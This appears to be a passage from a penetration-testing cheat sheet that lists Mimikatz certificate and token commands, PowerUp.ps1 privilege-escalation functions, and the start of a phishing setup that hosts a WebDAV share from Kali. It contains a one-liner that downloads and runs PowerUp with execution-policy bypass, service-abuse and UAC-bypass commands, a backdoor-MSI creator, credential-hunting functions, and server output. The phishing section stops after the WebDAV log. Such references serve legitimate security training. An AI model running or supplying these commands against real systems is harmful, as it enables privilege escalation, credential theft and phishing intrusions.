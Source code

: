 ### Certificates & Smartcards
- `crypto::certificates /export` – Export installed certificates (search for client auth certs).
- `crypto::capi` – Enumerate CAPI keys and providers.
- `crypto::cng` – List CNG keys.
- `token::elevate /domainadmin` – Leverage smartcard/PKI tokens when present.

### Cleanup
- `sekurlsa::minidump` – Switch LSASS target back to live memory after using minidumps.
- `privilege::debug /restore` – Drop debug privilege when done.
- `exit` – Close Mimikatz cleanly.

---

## PowerUp.ps1 Quick Wins

PowerUp (PowerSploit) remains a fast way to escalate Windows access after landing on a host. Pull it in over HTTP/SMB or drop a local copy, then let it enumerate and weaponize common misconfigurations for you.

- Load the module in-memory or offline:  
  `powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"`  
  `powershell -ep bypass -c ". .\\PowerUp.ps1; Invoke-AllChecks"` (execute from a local copy)
- Core enumeration aliases:  
  `Invoke-AllChecks` (alias of `Invoke-PrivescAudit`) runs every check and prints exploitation hints.  
  `Get-UnquotedService`, `Get-ModifiableServiceFile`, `Get-ModifiableService` spotlight service-based privilege-escalation.  
  `Get-ModifiableScheduledTaskFile`, `Get-ModifiableRegistryAutoRun` surface writable scheduled tasks and autoruns.  
  `Get-RegistryAlwaysInstallElevated`, `Get-RegistryAutoLogon` alert on MSI/UAC misconfigs and stored logons.  
  `Get-UnattendedInstallFile`, `Get-WebConfig`, `Get-ApplicationHost`, `Get-SiteListPassword`, `Get-CachedGPPPassword` hunt for clear-text credentials across the file system.
- Built-in exploitation helpers:  
  `Invoke-ServiceAbuse -ServiceName <svc> -Command "cmd.exe /c <payload>"` swaps binaries and restarts services for quick SYSTEM shells.  
  `Write-ServiceBinary -ServiceName <svc> -Path C:\Temp\payload.exe` and `Restore-ServiceBinary` manage replacements cleanly.  
  `Write-UserAddMSI -Output C:\Temp\backdoor.msi` weaponizes AlwaysInstallElevated with a user-creation MSI.  
  `Invoke-EventVwrBypass -Command "cmd.exe /c <payload>"` delivers a ready-made UAC bypass.  
  `Find-ProcessDLLHijack`, `Find-PathDLLHijack`, and `Write-HijackDll` chain DLL hijacks when writable directories are discovered.

---

## Phishing

* Step 1 setup webdav ( config.Library-ms file )
```bash
kali@kali:~$ mkdir /home/kali/beyond/webdav

kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
Running without configuration file.
04:47:04.860 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
04:47:04.861 - INFO    : WsgiDAV/4.0.2 Python/3.10.7 Linux-5.18.0-kali7-amd64-x86_64-with-glibc2.34
04:47:04.861 - INFO    : Lock manager:      LockManager(LockStorageDict)
04:47:04.861 - INFO    : Property manager:  None
04:47:04.861 - INFO    : Domain controller: SimpleDomainController()
04:47:04.861 - INFO    : Registered DAV providers by route:
04:47:04.861 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/home/kali/.local/lib/python3.10/site-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
```